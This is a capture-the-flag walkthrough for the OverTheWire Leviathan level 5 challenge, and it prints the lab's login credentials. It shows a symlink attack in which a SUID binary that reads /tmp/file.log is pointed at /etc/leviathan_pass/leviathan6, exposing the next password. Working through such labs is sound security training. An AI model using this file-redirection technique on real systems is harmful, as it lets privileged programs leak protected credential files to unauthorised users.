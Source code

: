 ## Login

SSH: `ssh leviathan5@leviathan.labs.overthewire.org -p 2223`

Password: `0dyxT7F4QD`

## A little bit of Theory

Nothing new. Theory from [Level 3]().

## Solution

In the home directory, we find a SUID binary called ’leviathan5’. As in previous levels we first run the binary to see what it does. The binary prints `Cannot find /tmp/file.log`. So we run `ltrace` to understand the underlying library calls and the program better and see that it tries to open a file called ‘/tmp/file.log’ that does not seem to exist.

```bash
leviathan5@leviathan:~$ ls -la
total 28
drwxr-xr-x  2 root       root       4096 Aug 26  2019 .
drwxr-xr-x 10 root       root       4096 Aug 26  2019 ..
-rw-r--r--  1 root       root        220 May 15  2017 .bash_logout
-rw-r--r--  1 root       root       3526 May 15  2017 .bashrc
-r-sr-x---  1 leviathan6 leviathan5 7560 Aug 26  2019 leviathan5
-rw-r--r--  1 root       root        675 May 15  2017 .profile
leviathan5@leviathan:~$ ./leviathan5 
Cannot find /tmp/file.log
leviathan5@leviathan:~$ ltrace ./leviathan5 
__libc_start_main(0x80485db, 1, 0xffffd784, 0x80486a0 <unfinished ...>
fopen("/tmp/file.log", "r")                                            = 0
puts("Cannot find /tmp/file.log"Cannot find /tmp/file.log
)                                      = 26
exit(-1 <no return ...>
+++ exited (status 255) +++
```

Since the program immediately exits, we create the file and see what will happen once the file exists.

```bash
leviathan5@leviathan:~$ touch /tmp/file.log
leviathan5@leviathan:~$ ./leviathan5
```

It does not return anything. I assumed that this is because it prints the content of ‘/tmp/file.log’ that we haven’t written anything in. We can test this theory by either writing something into the file or using `ltrace` again.

Now we have a file that we created and have access to. So we create a symbolic link that leads to the password file. Now the binary will print the password for the next level.

```bash
leviathan5@leviathan:~$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
leviathan5@leviathan:~$ ./leviathan5 
szo7HDB88w
```


---
### Official Level Link

[Leviathan Level 6](https://overthewire.org/wargames/leviathan/leviathan6.html)